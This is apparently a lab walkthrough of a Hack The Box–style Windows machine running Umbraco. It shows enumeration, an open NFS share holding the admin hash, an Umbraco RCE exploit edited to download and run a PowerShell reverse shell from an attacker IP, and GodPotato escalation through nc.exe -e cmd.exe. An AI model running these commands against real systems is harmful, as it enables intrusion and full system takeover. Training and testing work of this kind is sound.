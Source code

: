 ```yaml
---
layout: post
title: "Remote"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and scan it with nmap

```bash
rustscan -a 10.129.230.172

21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
111/tcp   open  rpcbind      syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
2049/tcp  open  nfs          syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49677/tcp open  unknown      syn-ack
49678/tcp open  unknown      syn-ack
49679/tcp open  unknown      syn-ack
49680/tcp open  unknown      syn-ack

sudo nmap -sC -sV -p21,80,111,135,445,2049,5985,47001,49664,49665,49666,49677,49678,49679,49680 -oA nmap/remote 10.129.230.172

notable;

21: FTP allows anon login
80: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445: SMB
2049: NFS
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

Let’s visit the web first. Found a page in contacts that has a login form. When trying to login:

![image.png]({{ site.baseurl }}/assets/remote/image.png)

Let’s try sql inject.

```bash
username: 'OR 1=1-- -
```

Does not work. Let’s see what’s in the ftp and smb shares

```bash
ftp 10.129.230.172 21
#emtpy

smbclient -N -L //10.129.230.172
#no null session
```

Let’s enumerate for subdirectories

```bash
gobuster dir -u http://10.129.230.172/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

/contact              (Status: 200) [Size: 7880]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/blog                 (Status: 200) [Size: 5001]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5338]
/product              (Status: 500) [Size: 3420]
/intranet             (Status: 200) [Size: 3313]
/Install              (Status: 302) [Size: 126] [--> /umbraco/]
/people               (Status: 200) [Size: 6739]
/Home                 (Status: 200) [Size: 6703]
/about-us             (Status: 200) [Size: 5451]
/umbraco              (Status: 200) [Size: 4040]
/Products             (Status: 200) [Size: 5338]
/Blog                 (Status: 200) [Size: 5011]
/master               (Status: 500) [Size: 3420]
/Product              (Status: 500) [Size: 3420]
/Contact              (Status: 200) [Size: 7880]
/INSTALL              (Status: 302) [Size: 126] [--> /umbraco/]
/person               (Status: 200) [Size: 2741]
/Master               (Status: 500) [Size: 3420]
/Intranet             (Status: 200) [Size: 3313]
/People               (Status: 200) [Size: 6739]
/Person               (Status: 200) [Size: 2741]
/‎                    (Status: 200) [Size: 6693]
/HOME                 (Status: 200) [Size: 6703]
/BLOG                 (Status: 200) [Size: 5011]
/About-Us             (Status: 200) [Size: 5451]
/1111                 (Status: 200) [Size: 4206]
/CONTACT              (Status: 200) [Size: 7890]
/INTRANET             (Status: 200) [Size: 3323]
/PRODUCTS             (Status: 200) [Size: 5338]
/PRODUCT              (Status: 500) [Size: 3420]
Progress: 23944 / 30001 (79.81%)[ERROR] parse "http://10.129.230.172/error\x1f_log": net/url: invalid control character in URL
/1117                 (Status: 200) [Size: 2750]
/1118                 (Status: 200) [Size: 2752]
/1116                 (Status: 200) [Size: 6739]
/1148                 (Status: 200) [Size: 3313]
P

gobuster dir -u http://10.129.230.172 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Playing around the site we find /blog page and the page parameter might be vulnerable to file inclusion. Let’s test it out with ffuf

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.230.172/blog/?page=FUZZ' -fw 1249

```

Nothing here so far. Let’s see what’s in the NFS share

```bash
showmount -e 10.129.230.172

result:
Export list for 10.129.230.172:
/site_backups (everyone)

#This means we can mount it

mkdir /mnt/remote
sudo mount -t nfs 10.129.230.172:/site_backups /mnt/remote
```

Found username in a sdf (database) file in App_Data

```bash
strings Umbraco.sdf | grep -i password

admin@htb.local

strings Umbraco.sdf | grep -i "admin@htb.local"

We find SHA1 hash
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can test if the hash can be cracked online e.g. crackstation and it’s a common password. We now have the credential of admin. Now we can go back to the web and login. When logged on, we can click on the question mark and it will give us the version of Umbraco (Umbraco version 7.12.4).

Now we can do search for the exploit and try and get a reverse shell. First we verified that umbraco has a RCE vulnerability so we need a windows reverse shell; Invoke-PowerShellTcp.ps1. First copy it to your attack dir and rename it to something simple like rev.ps1 and add the following to the bottom

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.118 -Port 9001
```

Now search for the exploit and save it to the attacking dir and change the following:

```bash
searchsploit umbraco
searchsploit -m 46153.py

Then change the following in the exploit file:
login = "admin@htb.local;
password="baconandcheese";
host = "http://10.129.230.172";
proc.StartInfo.FileName = "poweshell.exe";
string cmd = "IEX (IWR http://10.10.14.118:1234/rev.ps1 -UseBasicParsing)"

IEX(New-Object Net.Webclient).downloadString("http://10.10.14.118:1234/rev.ps1
```

Now start a python server on host and a listening port then execute the script

```bash
python3 -m http.server 1234

ON ANOTHER TAB:
nc -lnvp 9001
```

And now we have a reverse shell:

```bash
whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 

```

SeImpersonatePrivilege is enabled so let’s search up how to exploit that and we find https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070

Now we download GodPotato from https://github.com/BeichenDream/GodPotato/releases, just download this version [GodPotato-NET2.exe](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe)
    

```bash
iwr http://10.10.14.118:1234/GodPotato-NET2.exe -OutFile godpotato.exe

#also trasnfer nc.exe

iwr http://10.10.14.118:1234/nc.exe -OutFile nc.exe

#now start a listening port on attack host
rlwrap nc -lnvp 4040

#Nowe we exploit

.\godpotato.exe -cmd ".\nc.exe -e cmd.exe 10.10.14.118 4040"
```

Now we have nt/authority shell

- mount nfs share
- strings to find password in db
- crackstation
- Invoke-PowerShellTcp.ps1 reverse shell
- god potato

We also check the Windows architecture:

```bash
wmic os get osarchitecture

result:
64-bit    
```

Let’s use winPEAS to enumerate for potential vulnerabilities. First cp winPEASx64.exe to our attack dir and retrieve the executable from our python server from Windows

```bash
iwr http://10.10.14.118:1234/winPEASx64.exe -OutFile winpeas.exe

.\winpeas.exe

result:
**? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:                                                                            RmSvc: GenericExecute (Start/Stop)                                                                                             
    UsoSvc: AllAccess, Start**
```